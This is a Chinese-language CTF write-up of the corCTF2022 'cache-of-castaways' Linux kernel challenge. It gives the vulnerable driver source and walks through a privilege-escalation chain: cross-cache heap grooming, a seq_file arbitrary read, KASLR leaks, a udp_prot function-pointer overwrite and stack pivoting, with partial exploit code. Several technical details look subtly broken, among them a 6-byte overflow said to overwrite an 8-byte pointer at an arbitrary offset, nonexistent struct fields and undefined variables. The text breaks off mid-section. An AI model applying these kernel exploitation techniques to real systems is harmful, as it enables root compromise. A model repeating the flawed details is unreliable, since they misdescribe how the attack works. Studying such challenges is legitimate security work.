# 【pwn4kernel】Kernel Heap Cross-Cache Overflow技术分析

## 1. 测试环境

**测试版本**：Linux-5.18.3 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.18.3/01/bzImage)

笔者测试的内核版本是 `Linux CoR 5.18.3 #1 Sun Jan 11 15:29:45 CST 2026 x86_64 GNU/Linux`。

**编译选项**：关闭`CONFIG_USERFAULTFD`、`CONFIG_FUSE_FS`、`CONFIG_SLAB_MERGE_DEFAULT`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`选项。开启`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_STATIC_USERMODEHELPER`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.18.3/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：本程序源自 **[corCTF2022 - cache-of-castaways](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html)** 内核挑战，旨在构建一个高对抗性的漏洞利用研究环境。其核心是在一个由`SLAB_ACCOUNT`标志创建的独立Slab缓存中，设计了一个精确的六字节堆缓冲区溢出漏洞。该设计通过强制性的缓存隔离，系统性地阻断了针对通用内核堆布局与元数据的传统利用路径，从而为评估在极端受限条件下的利用可行性确立了严格基准。研究表明，突破此隔离限制的关键在于**页级堆风水（Page-Level Heap Feng Shui）** 技术。该技术通过对底层**Buddy System**的页面分配与释放行为进行精密诱导和操控，能够可控地使内核内存分配器将存在漏洞的隔离对象与特定的、可利用的通用内核对象（如`seq_file`结构体）放置在相邻的物理页上，从而实现**跨缓存溢出（Cross-Cache Overflow）**。这种可控的相邻布局，为将极其有限的溢出能力转化为包括**任意地址读**、**UAF（Use-After-Free）** 乃至最终**任意地址写**的完整特权提升链创造了条件。该驱动程序及其验证的利用路径证明，即使面对严格的Slab缓存隔离与微小的溢出窗口，通过对`Buddy System`等内存分配器底层行为的深度理解与诱导，利用依然能够成功。这为深入评估内核隔离机制的实际安全边界与“数据驱动利用”的潜力，提供了关键的实证案例。

驱动源码如下：

```c
// code from https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html
#include <linux/delay.h>
#include <linux/device.h>
#include <linux/fs.h>
#include <linux/kernel.h>
#include <linux/list.h>
#include <linux/miscdevice.h>
#include <linux/module.h>
#include <linux/mutex.h>
#include <linux/random.h>
#include <linux/slab.h>
#include <linux/types.h>
#include <linux/uaccess.h>
#include <linux/vmalloc.h>

#define DEVICE_NAME "castaway"
#define CLASS_NAME "castaway"

#define OVERFLOW_SZ 0x6

#define CHUNK_SIZE 512
#define MAX 8 * 50

#define ALLOC 0xcafebabe
#define DELETE 0xdeadbabe
#define EDIT 0xf00dbabe

MODULE_DESCRIPTION("a castaway cache, a secluded slab, a marooned memory");
MODULE_LICENSE("GPL");
MODULE_AUTHOR("FizzBuzz101");

typedef struct {
	int64_t idx;
	uint64_t size;
	char *buf;
} user_req_t;

int castaway_ctr = 0;

typedef struct {
	char pad[OVERFLOW_SZ];
	char buf[];
} castaway_t;

struct castaway_cache {
	char buf[CHUNK_SIZE];
};

static DEFINE_MUTEX(castaway_lock);

castaway_t **castaway_arr;

static long castaway_ioctl(struct file *file, unsigned int cmd,
			   unsigned long arg);
static long castaway_add(void);
static long castaway_edit(int64_t idx, uint64_t size, char *buf);

static struct miscdevice castaway_dev;
static struct file_operations castaway_fops = {.unlocked_ioctl = castaway_ioctl
};

static struct kmem_cache *castaway_cachep;

static long castaway_ioctl(struct file *file, unsigned int cmd,
			   unsigned long arg)
{
	user_req_t req;
	long ret = 0;

	if (cmd != ALLOC && copy_from_user(&req, (void *)arg, sizeof(req))) {
		return -1;
	}
	mutex_lock(&castaway_lock);
	switch (cmd) {
	case ALLOC:
		ret = castaway_add();
		break;
	case EDIT:
		ret = castaway_edit(req.idx, req.size, req.buf);
		break;
	default:
		ret = -1;
	}
	mutex_unlock(&castaway_lock);
	return ret;
}

static long castaway_add(void)
{
	int idx;
	if (castaway_ctr >= MAX) {
		goto failure_add;
	}
	idx = castaway_ctr++;
	castaway_arr[idx] =
	    kmem_cache_zalloc(castaway_cachep, GFP_KERNEL_ACCOUNT);

	if (!castaway_arr[idx]) {
		goto failure_add;
	}

	return idx;

failure_add:
	printk(KERN_INFO "castaway chunk allocation failed\n");
	return -1;
}

static long castaway_edit(int64_t idx, uint64_t size, char *buf)
{
	char temp[CHUNK_SIZE];
	if (idx < 0 || idx >= MAX || !castaway_arr[idx]) {
		goto edit_fail;
	}
	if (size > CHUNK_SIZE || copy_from_user(temp, buf, size)) {
		goto edit_fail;
	}
	memcpy(castaway_arr[idx]->buf, temp, size);

	return size;

edit_fail:
	printk(KERN_INFO "castaway chunk editing failed\n");
	return -1;
}

static int init_castaway_driver(void)
{
	gfp_t cache_flag = SLAB_PANIC | SLAB_ACCOUNT;
	castaway_dev.minor = MISC_DYNAMIC_MINOR;
	castaway_dev.name = DEVICE_NAME;
	castaway_dev.fops = &castaway_fops;
	castaway_dev.mode = 0644;
	mutex_init(&castaway_lock);
	if (misc_register(&castaway_dev)) {
		return -1;
	}
	castaway_arr = kzalloc(MAX * sizeof(castaway_t *), GFP_KERNEL);
	if (!castaway_arr) {
		return -1;
	}
	castaway_cachep = KMEM_CACHE(castaway_cache, cache_flag);
	if (!castaway_cachep) {
		return -1;
	}
	printk(KERN_INFO "All alone in an castaway cache... \n");
	printk(KERN_INFO "There's no way a pwner can escape!\n");
	return 0;
}

static void cleanup_castaway_driver(void)
{
	int i;
	misc_deregister(&castaway_dev);
	mutex_destroy(&castaway_lock);
	for (i = 0; i < MAX; i++) {
		if (castaway_arr[i]) {
			kfree(castaway_arr[i]);
		}
	}
	kfree(castaway_arr);
	printk(KERN_INFO "Guess you remain a castaway\n");
}

module_init(init_castaway_driver);
module_exit(cleanup_castaway_driver);
```

## 2. 漏洞机制

### 2-1. 漏洞模块分析

#### 2-1-1. 数据结构与全局变量

`castaway`内核模块实现了一个简单的内存缓存管理机制，通过内核模块接口提供内存分配和编辑功能。模块定义了以下核心数据结构：

**castaway_t结构**：

```c
typedef struct {
    char pad[OVERFLOW_SZ];  /* 6字节填充区域 */
    char buf[];             /* 可变长度缓冲区 */
} castaway_t;
```

**用户请求结构**：

```c
typedef struct {
    int64_t idx;           /* 对象索引 */
    uint64_t size;         /* 数据大小 */
    char *buf;             /* 用户空间缓冲区指针 */
} user_req_t;
```

**全局变量**：

- `castaway_arr`：指向`castaway_t`指针数组，最大容量为400个（MAX = 8 \* 50）
- `castaway_ctr`：当前已分配对象计数
- `castaway_cachep`：SLAB缓存指针，用于分配512字节（CHUNK_SIZE）的内存块
- `castaway_lock`：互斥锁，保护对共享资源的并发访问

#### 2-1-2. 模块初始化与缓存创建

模块初始化阶段执行以下关键操作：

```c
static int init_castaway_driver(void) {
    gfp_t cache_flag = SLAB_PANIC | SLAB_ACCOUNT;
    /* ... */
    castaway_arr = kzalloc(MAX * sizeof(castaway_t *), GFP_KERNEL);
    castaway_cachep = KMEM_CACHE(castaway_cache, cache_flag);
    /* ... */
}
```

**缓存创建参数**：

- `SLAB_PANIC`：内存分配失败时触发panic
- `SLAB_ACCOUNT`：为内存分配启用记账功能
- 缓存对象大小为512字节，对应`struct castaway_cache`

**内存布局特征**：
`castaway_t`结构包含6字节的`pad`字段和可变长度的`buf`字段。当从`castaway_cachep`缓存分配内存时，实际分配的是`struct castaway_cache`结构，大小为512字节。`castaway_t`指针指向这个512字节内存块的起始位置。

#### 2-1-3. 分配功能（ALLOC）

`ALLOC`操作（ioctl命令`0xcafebabe`）通过`castaway_add()`函数实现内存分配：

```c
static long castaway_add(void) {
    int idx;
    if (castaway_ctr >= MAX) {
        goto failure_add;
    }
    idx = castaway_ctr++;
    castaway_arr[idx] = kmem_cache_zalloc(castaway_cachep, GFP_KERNEL_ACCOUNT);
    /* ... */
}
```

**分配流程**：

1. 检查当前分配计数是否超过上限（400）
2. 分配索引为当前计数值
3. 从`castaway_cachep`缓存中分配零初始化内存
4. 将分配的内存指针存储在`castaway_arr`数组中
5. 分配计数递增

**分配特性**：

- 使用`GFP_KERNEL_ACCOUNT`标志，允许睡眠等待内存
- 内存被零初始化（`kmem_cache_zalloc`）
- 分配的内存块大小为512字节
- 内存块来自专用的SLAB缓存

#### 2-1-4. 编辑功能（EDIT）与缓冲区溢出漏洞

`EDIT`操作（ioctl命令`0xf00dbabe`）通过`castaway_edit()`函数实现数据编辑：

```c
static long castaway_edit(int64_t idx, uint64_t size, char *buf) {
    char temp[CHUNK_SIZE];
    if (idx < 0 || idx >= MAX || !castaway_arr[idx]) {
        goto edit_fail;
    }
    if (size > CHUNK_SIZE || copy_from_user(temp, buf, size)) {
        goto edit_fail;
    }
    memcpy(castaway_arr[idx]->buf, temp, size);
    return size;
}
```

**关键漏洞点**：
`memcpy`操作的目标地址是`castaway_arr[idx]->buf`，这个指针指向`castaway_t`结构中的`buf`字段。由于`castaway_t`结构定义如下：

```c
typedef struct {
    char pad[OVERFLOW_SZ];  /* 6字节 */
    char buf[];             /* 可变长度 */
} castaway_t;
```

而实际分配的内存是`struct castaway_cache`结构（512字节），内存布局为：

```
偏移0x00: pad[6]          (6字节)
偏移0x06: buf[]            (506字节)
```

**漏洞触发条件**：
当`EDIT`操作的`size`参数大于506字节时，`memcpy`操作会写入超出`buf`字段边界的区域，覆盖相邻内存。由于`castaway_t`结构体内部没有边界检查，且分配的512字节内存块可能与其他内核对象相邻，这可能导致相邻内核对象的关键字段被覆盖。

**数学表达**：
设分配的`castaway_t`对象位于内存地址$$M$$，则：

- $$M$$到$$M+5$$：`pad`字段
- $$M+6$$到$$M+511$$：`buf`字段
- 当$$size > 506$$时，写入范围超过$$M+511$$，覆盖相邻内存

### 2-2. 内存布局构建

#### 2-2-1. 利用setsockopt消耗order 0内存

为了构建特定的内存布局，需要首先消耗系统的order 0内存页。这通过大量调用`setsockopt`系统调用实现：

**内存分配策略**：

1. 创建大量socket套接字
2. 对每个套接字调用`setsockopt`分配内核内存
3. 分配的每个内存块大小通常为4KB（PAGE_SIZE）
4. 重复此过程1000次，消耗大量order 0内存页

**buddy分配器行为**：
Linux内核的buddy分配器管理物理内存页。当order 0（4KB页）的freelist耗尽时，分配器会：

1. 检查更高order的freelist
2. 从order 1（8KB）的freelist中分割一个内存块
3. 一半（4KB）放入order 0的freelist
4. 另一半（4KB）返回给调用者

**内存消耗效果**：

```c
/* 模拟setsockopt堆喷 */
for (int i = 0; i < 1000; i++) {
    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    setsockopt(sock, SOL_SOCKET, SO_SNDBUF, buffer, buffer_size);
    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION, &version,
                     sizeof(version));
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    // 保存socket描述符供后续使用
}
```

#### 2-2-2. 交替释放与分配构建相邻布局

在消耗order 0内存后，通过交替释放和分配操作构建特定的内存布局：

**第一步：释放奇数页**：
释放之前通过`setsockopt`分配的一半内存页（奇数索引的页），在order 0的freelist中创建空洞。

**第二步：分配seq_file对象**：
通过打开`/proc/self/stat`文件分配`seq_file`结构体。由于`seq_file`结构大小通常小于4KB，它们会从order 0的freelist中分配内存。这些分配会填充刚刚释放的奇数页位置。

```c
/* 分配seq_file对象 */
int seq_fds[0x100];
for (int i = 0; i < 0x100; i++) {
    seq_fds[i] = open("/proc/self/stat", O_RDONLY);
}
```

**第三步：释放偶数页**：
释放剩余的`socket`内存页（偶数索引的页），在内存中创建交替的已分配/空闲区域模式。

**第四步：分配castaway_t对象**：
通过`castaway`驱动的`ALLOC`命令分配`castaway_t`对象。这些对象也会从order 0的freelist中分配内存，填充刚刚释放的偶数页位置。

```c
/* 分配castaway_t对象 */
int castaway_indices[0x100];
for (int i = 0; i < 0x100; i++) {
    ioctl(castaway_fd, ALLOC, NULL);
}
```

**内存布局结果**：
经过上述操作后，物理内存中可能形成以下布局模式：

```
内存地址:     对象类型
0x1000:      seq_file A
0x2000:      castaway_t A
0x3000:      seq_file B
0x4000:      castaway_t B
...
```

**布局成功概率**：
通过大量分配操作，利用概率优势提高`seq_file`和`castaway_t`对象在物理内存上相邻的可能性。即使单次分配相邻的概率较低，大规模分配可显著提高整体成功率。

#### 2-2-3. 溢出目标：seq_file结构

当`castaway_t`对象与`seq_file`对象在物理内存上相邻时，通过`castaway_edit()`函数的缓冲区溢出可以修改相邻`seq_file`结构的关键字段。

**seq_file结构关键字段**：

```c
struct seq_file {
    char *buf;        /* 缓冲区指针，偏移0x00 */
    size_t size;      /* 缓冲区大小，偏移0x08 */
    size_t from;      /* 读取起始位置，偏移0x10 */
    size_t count;     /* 已读取字节数，偏移0x18 */
    loff_t index;     /* 当前索引，偏移0x20 */
    /* ... 其他字段 ... */
};
```

**溢出修改机制**：
当`castaway_t`对象在内存中位于`seq_file`对象之前时，`castaway_t->buf`字段的溢出写入可以覆盖相邻`seq_file`结构的`buf`指针。通过精确控制溢出数据，可以将`seq_file->buf`指针修改为目标地址。

**溢出计算**：
设`castaway_t`对象地址为$$C$$，相邻`seq_file`对象地址为$$S$$，内存偏移为$$Δ = S - C$$。溢出写入需要覆盖$$S$$处`seq_file`结构的`buf`字段（偏移0x00），因此溢出数据在偏移$$Δ$$处应包含目标地址。

### 2-3. 信息泄露与地址获取

#### 2-3-1. 利用cpu_entry_area mapping泄露内核地址

在Linux内核版本6.2以下，`cpu_entry_area`映射区域不参与内核地址空间布局随机化（KASLR）。这为内核地址信息获取提供了稳定的参考点。

**cpu_entry_area结构**：
`cpu_entry_area`是内核为每个CPU核心维护的特殊内存区域，包含进入和退出内核时使用的代码和数据。其在内核地址空间中的位置是固定的。

**地址获取机制**：

1. 通过溢出修改`seq_file->buf`指针，指向`cpu_entry_area`中的特定位置
2. 通过`read`系统调用读取`seq_file`数据
3. 读取的数据包含`cpu_entry_area`中的内核地址
4. 计算内核基址偏移

```c
/* 设置seq_file->buf指向cpu_entry_area */
uint64_t cpu_entry_area_addr = 0xfffffe0000000014; /* 示例地址 */
memcpy(overflow_data + offset, &cpu_entry_area_addr, 8);
ioctl(castaway_fd, EDIT, &edit_req);

/* 读取内核地址 */
char buffer[4096];
read(seq_fd, buffer, sizeof(buffer));
uint64_t kernel_addr = *(uint64_t *)buffer;
uint64_t kernel_base = kernel_addr - OFFSET_CALCULATION;
```

**偏移计算**：
从`cpu_entry_area`中读取的内核地址与已知偏移进行计算，可以得到内核镜像的基址。这对于后续计算其他内核符号的地址至关重要。

#### 2-3-2. 获取modules地址并泄露驱动模块基址

获取内核基址后，下一步是获取`modules`链表的地址，进而获取`castaway`驱动模块的加载地址。

**modules链表**：
Linux内核维护一个全局的`modules`链表，包含所有已加载内核模块的信息。通过内核基址和固定偏移可以计算`modules`链表的地址。

**地址计算流程**：

1. 使用从`cpu_entry_area`获取的内核基址
2. 计算`modules`链表的虚拟地址：`modules_addr = kernel_base + MODULES_OFFSET`
3. 将`seq_file->buf`指向`modules`链表地址
4. 通过`read`系统调用读取`modules`链表内容
5. 解析链表，找到`castaway`模块的`module`结构

**module结构关键字段**：

```c
struct module {
    enum module_state state;        /* 模块状态 */
    struct list_head list;          /* 链表节点 */
    char name[MODULE_NAME_LEN];     /* 模块名称 */
    const struct kernel_symbol *syms; /* 符号表 */
    /* ... 其他字段 ... */
    void *module_core;              /* 模块核心内存 */
    unsigned int core_size;         /* 核心大小 */
    /* ... */
};
```

**模块地址获取**：
通过遍历`modules`链表，比较模块名称找到`castaway`模块，然后获取其`module_core`字段，即模块的加载基址。

#### 2-3-3. 获取castaway_arr地址

获取驱动模块基址后，可以进一步获取`castaway_arr`全局变量的地址。

**全局变量地址计算**：

1. 驱动模块的加载基址已知
2. `castaway_arr`在模块中的偏移可以通过分析模块二进制文件获取
3. `castaway_arr`的虚拟地址 = 模块基址 + 符号偏移

**地址验证**：
将`seq_file->buf`指向计算得到的`castaway_arr`地址，通过`read`系统调用读取其内容。如果读取成功且内容符合预期（指针数组），则验证地址正确。

**castaway_arr[1]用途**：
`castaway_arr[1]`在后续技术实现中用于存储控制流调整链。通过泄露其地址，可以精确控制其内容。

**完整地址获取链**：

```
cpu_entry_area泄露 → 内核基址 → modules地址 → castaway模块基址 → castaway_arr地址
```

每个步骤都依赖于前一步的结果，形成链式的地址获取过程。

### 2-4. 任意地址写原语构建

#### 2-4-1. 释放castaway_arr并重新分配

获取`castaway_arr`地址后，需要构建任意地址写原语。这通过释放`castaway_arr`占用的内存并重新分配控制该内存区域实现。

**释放机制**：

1. 通过驱动`EDIT`命令将目标`seq_file->buf`修改为`castaway_arr`地址
2. 关闭对应的`seq_fd`文件描述符
3. `seq_file`结构被释放，其`buf`字段指向`castaway_arr`
4. 由于`seq_file`的释放，其`buf`指向的内存（`castaway_arr`）被释放回SLAB分配器

**内存重新分配**：
释放`castaway_arr`占用的内存后，通过`setxattr`系统调用分配相同大小的内存块（kmalloc-4k）：

```c
/* 重新分配控制castaway_arr内存区域 */
char buffer[4096];
setxattr("/tmp/target", "user.x", buffer, 4096, XATTR_CREATE);
```

**分配策略**：

- `setxattr`分配的内核缓冲区大小与`castaway_arr`相同（4KB）
- 由于SLAB分配器的重用特性，新分配的内存很可能重用刚刚释放的`castaway_arr`内存区域
- 通过控制`setxattr`的数据内容，可以完全控制原`castaway_arr`内存区域

#### 2-4-2. 修改udp_prot函数表

控制`castaway_arr`内存区域后，可以修改其内容以实现任意地址写原语。技术实现选择修改`udp_prot`函数表作为控制流调整的入口点。

**udp_prot结构**：
`udp_prot`是UDP协议的操作函数表，包含多个函数指针，包括`sendmsg`、`recvmsg`等。这些函数在UDP套接字操作时被调用。

**函数表修改**：

1. 将`castaway_arr[0]`设置为`udp_prot`的地址
2. 将`castaway_arr[1]`设置为包含控制流调整链的内存区域地址
3. 通过驱动`EDIT`命令与`castaway_arr`交互，修改`udp_prot->sendmsg`函数指针

**修改流程**：

```c
/* 设置castaway_arr内容 */
uint64_t *fake_arr = (uint64_t *)buffer;
fake_arr[0] = udp_prot_addr;        /* udp_prot地址 */
fake_arr[1] = rop_chain_addr;       /* 控制流调整链地址 */

/* 通过驱动EDIT修改udp_prot->sendmsg */
edit_req.idx = 0;                    /* 对应castaway_arr[0] */
edit_req.size = 8;
edit_req.buf = (char *)&sendmsg_gadget_addr;
ioctl(castaway_fd, EDIT, &edit_req);
```

**sendmsg函数指针**：
`udp_prot->sendmsg`函数指针是技术实现选择的控制流调整入口。当UDP套接字执行`sendmsg`操作时，会调用此函数指针。

**控制流调整链位置**：
控制流调整链存储在`castaway_arr[1]`指向的内存区域。这个区域在后续的栈迁移操作中将成为最终的执行目标。

### 2-5. 控制流调整

#### 2-5-1. 控制流劫持入口点

通过修改`udp_prot`函数表中的`sendmsg`函数指针，可以将UDP套接字的`sendmsg`操作重定向到预先设置的控制流调整代码。当用户空间程序调用`sendto`或`sendmsg`系统调用时，控制流会从正常的UDP发送路径转移到技术实现设计的控制流调整路径。

**触发机制**：

```c
/* 创建UDP套接字并触发sendmsg */
int sock = socket(AF_INET, SOCK_DGRAM, 0);
struct sockaddr_in addr = {0};
addr.sin_family = AF_INET;
addr.sin_port = htons(1234);
addr.sin_addr.s_addr = inet_addr("127.0.0.1");

/* 发送数据触发udp_prot->sendmsg */
sendto(sock, "trigger", 7, 0, (struct sockaddr *)&addr, sizeof(addr));
```

**控制流重定向原理**：

1. 用户空间调用`sendto`系统调用
2. 内核路由到UDP协议的`sendmsg`实现
3. 通过`udp_prot`函数表调用`sendmsg`函数指针
4. 由于函数指针被修改，控制流跳转到预先设置的控制流调整代码

#### 2-5-2. 栈迁移技术原理

为了执行复杂的控制流调整操作，需要将控制流从原始的内核栈迁移到可控的内存区域。栈迁移技术通过修改栈指针寄存器，将执行环境转移到预先准备好的内存区域。

**栈迁移的必要性**：

1. 原始内核栈空间有限，无法容纳复杂的控制流调整链
2. 内核栈有保护机制，直接修改可能触发异常
3. 需要可控的执行环境来执行权限提升操作

**多级栈迁移策略**：
技术实现采用多级栈迁移策略，逐步将控制流从原始内核栈迁移到目标内存区域：

1. 第一级栈迁移：从原始内核栈迁移到`pt_regs`结构区域
2. 第二级栈迁移：从`pt_regs`区域迁移到`castaway_arr[1]`内存区域

**栈迁移的执行机制**：
通过精心选择的内核代码片段（通常称为"gadget"），可以执行栈指针调整操作。这些gadget通常包含修改栈指针的指令（如`add rsp, imm`或`pop rsp`），后跟返回指令（`ret`），实现栈迁移和控制流转移。

#### 2-5-3. 通过pt_regs实现控制流传递

`pt_regs`是内核在系统调用入口处保存的用户空间寄存器值的结构体。通过预先设置`pt_regs`中的寄存器值，可以在栈迁移后控制后续的执行流。

**pt_regs结构的关键作用**：

1. 保存系统调用时的用户空间寄存器状态
2. 在栈迁移后，`pt_regs`中的值可以被弹出到相应寄存器
3. 通过控制`pt_regs`中的值，可以间接控制后续的执行流

**寄存器控制策略**：
在触发系统调用前，通过用户空间程序设置特定的寄存器值，这些值会被保存到`pt_regs`中。在栈迁移到`pt_regs`区域后，通过弹出这些寄存器值，可以控制后续的指令指针、栈指针等关键寄存器。

#### 2-5-4. 权限提升与返回用户空间

控制流迁移到目标内存区域后，执行预先设置的控制流调整链，实现权限提升操作。

**权限提升原理**：

1. 调用内核函数创建高权限的凭证结构
2. 将创建的凭证应用到当前进程
3. 进程获得提升后的权限

**优雅返回用户空间**：
在完成权限提升后，需要通过安全的方式返回用户空间，避免系统崩溃或触发异常。Linux内核提供了标准的返回用户空间机制，可以安全地恢复用户空间寄存器状态并切换回用户空间执行。

**系统稳定性保障**：

1. 在权限提升操作完成后，恢复被修改的内核数据结构
2. 确保系统调用正常返回，避免异常行为
3. 维护系统稳定性，避免内核崩溃

### 2-6. 技术总结

本章节详细阐述了`castaway`内核模块中缓冲区溢出漏洞的利用机制，展现了从内存布局构建、信息泄露、地址获取到控制流调整的完整技术链条。通过`setsockopt`系统调用消耗order 0内存页，利用Buddy System分配器行为特征构建特定物理内存布局，使`castaway_t`对象与`seq_file`对象相邻，从而通过6字节缓冲区溢出修改`seq_file->buf`指针，实现任意地址读取功能。基于`cpu_entry_area`映射区域固定位置特性获取内核基址，通过`modules`链表获取驱动模块加载地址和`castaway_arr`全局变量地址，形成链式地址获取过程。通过释放并重新分配`castaway_arr`内存区域构建任意地址写原语，修改`udp_prot`函数表的`sendmsg`指针作为控制流调整入口。采用多级栈迁移技术将控制流从原始内核栈迁移到`pt_regs`区域，再通过预设的寄存器值跳转到目标内存区域执行控制流调整链，实现权限提升并安全返回用户空间。整个技术实现体现了对Linux内核内存管理机制、系统调用接口、数据结构布局和控制流转移技术的深入理解，展现了现代内核内存操作技术的高度复杂性和工程完整性。

## 3. 内存操作原理

### 3-1. Buddy分配器原理

#### 3-1-1. Buddy分配器基本概念

Buddy分配器是Linux内核中用于管理物理内存页的核心分配器。它将物理内存划分为不同大小的块，每个块的大小是2的幂次方（称为order）。最小块的大小为一页（通常为4KB），对应的order为0。

**Buddy分配器的历史与发展**：
Buddy分配器最初由Kenneth C. Knowlton在1965年提出，后经Donald Knuth完善。Linux内核中的Buddy分配器经过多次优化，形成了现代的高效内存管理系统。它的设计目标是减少内存碎片，同时提供快速的分配和释放操作。

**Buddy分配器的核心数据结构**：

- `free_area`数组：每个元素对应一个order，维护该order的空闲块链表
- 每个空闲块都有一个`struct page`结构体表示
- 位图（bitmap）：用于快速查找空闲伙伴块

**Buddy分配器的分配原则**：

1. 当请求分配$$2^{\text{order}}$$页时，分配器首先在对应order的空闲链表中查找
2. 如果该链表为空，则向更高order的链表查找，直到找到非空链表
3. 将找到的块分割为两个大小相等的伙伴块（buddy）
4. 一个块用于分配，另一个块放入低一级的链表中

**Buddy分配器的释放原则**：

1. 释放内存块时，分配器检查其伙伴块是否空闲
2. 如果伙伴块空闲，则合并两个块形成一个更大的块
3. 重复此过程，直到无法合并或达到最大order

**Buddy分配器的数据结构**：

```c
struct free_area {
    struct list_head free_list[MIGRATE_TYPES];  /* 按迁移类型分类的空闲链表 */
    unsigned long nr_free;                      /* 空闲块数量 */
    unsigned long *map;                         /* 位图，用于伙伴查找 */
};
```

**Buddy分配器的order与大小关系**：

$$
\text{块大小} = 2^{\text{order}} \times \text{PAGE_SIZE}
$$

**Buddy分配器的物理内存管理层次**：



#### 3-1-2. Buddy分配器算法细节

**伙伴块的数学定义**：
在Buddy分配器中，伙伴块是指两个大小相同、物理地址相邻且满足特定对齐关系的内存块。设块大小为$$2^k$$页，起始地址为$$addr$$，其伙伴块的地址为：

$$
\text{buddy_addr} = addr \oplus (1 << (k + \text{PAGE_SHIFT}))
$$

**位图查找机制**：
Buddy分配器使用位图来加速伙伴块的查找。位图的每一位对应一对可能的伙伴块，用于记录伙伴块的状态（空闲或已分配）。

**分配算法流程**：

```c
static struct page *__rmqueue(struct zone *zone, unsigned int order,
                              int migratetype, unsigned int alloc_flags)
{
    struct free_area *area;
    unsigned int current_order;
    struct page *page;

    /* 从请求的order开始向上查找 */
    for (current_order = order; current_order < MAX_ORDER; ++current_order) {
        area = &(zone->free_area[current_order]);
        page = get_page_from_free_area(area, migratetype);
        if (!page)
            continue;  /* 当前order无空闲块，继续向上查找 */

        /* 从空闲链表中移除页面 */
        del_page_from_free_list(page, zone, current_order);

        /* 如果需要分割块 */
        expand(zone, page, order, current_order, area, migratetype);

        /* 设置页面属性 */
        set_page_private(page, migratetype);
        return page;
    }
    return NULL;  /* 没有可用内存 */
}
```

**分割算法（expand）**：
当从较高order分配块时，需要递归地分割块直到获得所需大小的块：

```c
static void expand(struct zone *zone, struct page *page,
                   int low, int high, struct free_area *area,
                   int migratetype)
{
    unsigned long size = 1 << high;

    while (high > low) {
        area--;
        high--;
        size >>= 1;

        /* 将后半部分作为伙伴块加入空闲链表 */
        struct page *buddy = page + size;
        buddy->private = 0;
        add_to_free_list(buddy, zone, high, migratetype);
        set_page_order(buddy, high);
    }
}
```

**释放算法**：
释放内存块时，需要检查伙伴块是否空闲，如果空闲则合并：

```c
static inline void __free_one_page(struct page *page,
                                   unsigned long pfn,
                                   struct zone *zone, unsigned int order,
                                   int migratetype)
{
    unsigned long combined_pfn;
    unsigned long uninitialized_var(buddy_pfn);
    struct page *buddy;

    while (order < MAX_ORDER - 1) {
        /* 计算伙伴块地址 */
        buddy_pfn = __find_buddy_pfn(pfn, order);
        buddy = page + (buddy_pfn - pfn);

        /* 检查伙伴块是否空闲且可合并 */
        if (!page_is_buddy(page, buddy, order))
            break;

        /* 从空闲链表中移除伙伴块 */
        del_page_from_free_list(buddy, zone, order);

        /* 合并两个块 */
        combined_pfn = buddy_pfn & pfn;
        page = page + (combined_pfn - pfn);
        pfn = combined_pfn;
        order++;
    }

    /* 将合并后的块加入空闲链表 */
    set_page_order(page, order);
    add_to_free_list(page, zone, order, migratetype);
}
```

**伙伴块查找算法**：

```c
static inline unsigned long
__find_buddy_pfn(unsigned long page_pfn, unsigned int order)
{
    return page_pfn ^ (1 << order);
}
```

**伙伴块检查函数**：

```c
static inline int page_is_buddy(struct page *page, struct page *buddy,
                                unsigned int order)
{
    /* 检查伙伴块是否在同一区域 */
    if (page_zone_id(page) != page_zone_id(buddy))
        return 0;

    /* 检查伙伴块是否空闲 */
    if (!PageBuddy(buddy))
        return 0;

    /* 检查伙伴块的order是否匹配 */
    if (buddy_order(buddy) != order)
        return 0;

    /* 检查迁移类型是否匹配 */
    if (get_pageblock_migratetype(buddy) != get_pageblock_migratetype(page))
        return 0;

    return 1;
}
```

#### 3-1-3. 通过setsockopt触发Buddy分配

`setsockopt`系统调用在某些选项设置时会触发内核内存分配。具体到`packet_setsockopt()`函数，当设置`PACKET_RX_RING`或`PACKET_TX_RING`选项时，会调用`packet_set_ring()`函数，进而调用`alloc_pg_vec()`分配内存。

**内存分配调用链**：

